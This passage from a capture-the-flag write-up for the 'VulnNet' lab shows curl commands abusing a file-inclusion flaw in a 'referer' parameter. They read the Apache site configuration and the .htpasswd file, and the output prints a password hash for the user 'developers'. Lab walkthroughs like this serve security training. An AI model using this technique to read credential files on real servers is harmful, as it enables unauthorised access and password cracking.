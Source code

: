 As we have seen previously, the other domain is protected by a basic authentication. Let's check in the Apache configuration files what we can find:

~~~
┌──(kali㉿kali)-[/data/VulnNet]
└─$ curl -s http://vulnnet.thm/?referer=/etc/apache2/sites-enabled/000-default.conf

[REDACTED]

<VirtualHost *:80>
  ServerAdmin webmaster@localhost
  ServerName vulnnet.thm
  DocumentRoot /var/www/main
  ErrorLog ${APACHE_LOG_DIR}/error.log
  CustomLog ${APACHE_LOG_DIR}/access.log combined
  <Directory /var/www/main>
    Order allow,deny
    allow from all
  </Directory>
</VirtualHost>

<VirtualHost *:80>
  ServerAdmin webmaster@localhost
  ServerName broadcast.vulnnet.thm
  DocumentRoot /var/www/html
  ErrorLog ${APACHE_LOG_DIR}/error.log
  CustomLog ${APACHE_LOG_DIR}/access.log combined
  <Directory /var/www/html>
    Order allow,deny
    allow from all
    AuthType Basic
    AuthName "Restricted Content"
    AuthUserFile /etc/apache2/.htpasswd
    Require valid-user
  </Directory>
</VirtualHost>

[REDACTED]
~~~

## Break the broadcast.vulnnet.thm authentication

It looks like the basic authentication password file is stored in `/etc/apache2/.htpasswd`. Let's get the content of the file:

~~~                                                                                                                    
┌──(kali㉿kali)-[/data/VulnNet]
└─$ curl -s http://vulnnet.thm/?referer=/etc/apache2/.htpasswd                     

[REDACTED]

developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0

[REDACTED]
~~~
